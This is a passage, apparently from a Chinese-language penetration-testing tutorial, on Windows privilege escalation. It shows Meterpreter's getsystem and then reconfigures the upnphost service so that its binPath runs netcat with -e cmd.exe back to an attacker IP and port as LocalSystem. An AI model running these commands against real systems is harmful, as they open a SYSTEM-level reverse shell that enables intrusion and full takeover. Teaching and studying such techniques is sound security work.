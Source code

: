 要尝试获取 admin，请键入以下命令：

```
getsystem
```

![](img/2e094e87-7be3-4f53-a2d8-8b35b8723e0f.png)

我们可以看到我们现在是`NT AUTHORITY\SYSTEM`。有时，这种技术可能不起作用，因此我们尝试另一种方法将系统安装到机器上。我们将研究一些重新配置 Windows 服务的方法

我们将使用**sc**（称为**服务配置**来配置 Windows 服务。
我们来看看`upnphost`服务：

```
sc qc upnphost
```

![](img/fa564bc4-6c7b-405c-9bd2-8aa28218926f.png)

首先，我们将`netcat`二进制文件上传到系统上。完成后，我们可以使用二进制文件更改正在运行的服务的二进制文件路径：

```
sc config upnphost binPath= "<path to netcat>\nc.exe -nv <our IP> <our port> -e C:\WINDOWS\System32\cmd.exe"
```

![](img/b59a25ff-43c7-4173-a313-82648ff44bad.png)

```
sc config upnphost obj= ".\LocalSystem" password= ""
```
